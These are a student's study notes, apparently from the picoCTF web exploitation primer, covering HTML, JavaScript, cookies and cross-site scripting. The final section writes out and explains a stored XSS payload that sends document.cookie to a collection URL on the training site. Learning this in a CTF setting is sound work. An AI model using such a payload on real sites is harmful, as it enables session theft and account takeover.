


# Basics to Web Exploitation (based on the primer)(very rudimentary)(its a primer what did you expect)
Contains all the stuff from the primer but probably nothing else (like tips or anything)

## Contents:
- [HTML](#html)
- [Basics](#basics)
- [JS](#javascript)
- [Servers](#servers)
- [Time for hecking(Cross Site Scripting) XSS](#time-for-heckingcross-site-scripting-xss)
  - [This time fr](#hacking-fr-now)
- [More information](#thats-it)

## HTML:
HyperText Markup Language

### Basics:
Made of tags you apply to text
end of tags use </tag>, images doens’t need them
```
<head>	top content(can contain other tags)	</head>
<title>	title	</title>
<body> 	body content(can contain other tags)	</body>
<h1>	heading	</h1> //can also have h2s and more
<p> paragraph </p>

<a href='link'> 'funny blue text'
<br> line break
```
note that images pull from the folder where the html file is located
also note that the ending for images is good like that
that `>` pointer like the one used for the link shows what shows up on the element
[tags by w3 schools](https://www.w3schools.com/tags/)

## JavaScript
makes pages more interactive

Stuff happens with the `<script>`tags


stuff like alert(“message");

You can see the js code the website executed by pressing the view page source button

The info is never placed in html or the js script bc obvious
## Servers
Many langs can be run on a server hosting it
1. Python
2. Java
3. PHP
4. C
5. C Sharp
6. more

so that you can’t see the script code being deployed, rather you only see the message the script returns: 

## Time for hecking(Cross Site Scripting) XSS
So what do websites do to make coming back with info easier, like resume a session, or your input data, or whatever?

**cookies!**
the server sends it to your browser, then it sends it back to verify

we could just show the sever your cookie and then boom, you can pass as the original user!(aka Cross Site Request Forgery CSRF)

or you could, yk, put js script into a input text field, and the website will execute that code
- this allows you to read auth data, access cookie values, and compromise the account

### Hacking fr now:
this script is input into the description box in [this website](https://primer.picoctf.org/vuln/web/sign_up.php) to steal cookies

lets break it down:
```
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
```

imports the jquery libary

```
$.get(
    "https://primer.picoctf.org/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'YourName'},
```
1. $.get calls the method for jquery that allows the stealing of cookies, in get(link to receive cookies , {cookie:cookie, hackername: name} )
2. the link is where the cookie is sent for interception
3. in the array:
  4. cookie is the cookie you give to the method
  5. name is just a name

```
function(data) {
        alert("I just stole the cookie!");
    }
```
Simply shows the alert that the script was executed

## That's it??
Without looking at any extra information, I could bet that you would need:
1. more knowledge on these libraries
2. know how websites secures their frontend to prevent script execution
3. know the things we could realistically access from a website
4. programming languages and their weaknessess, like how they could execute js scripts
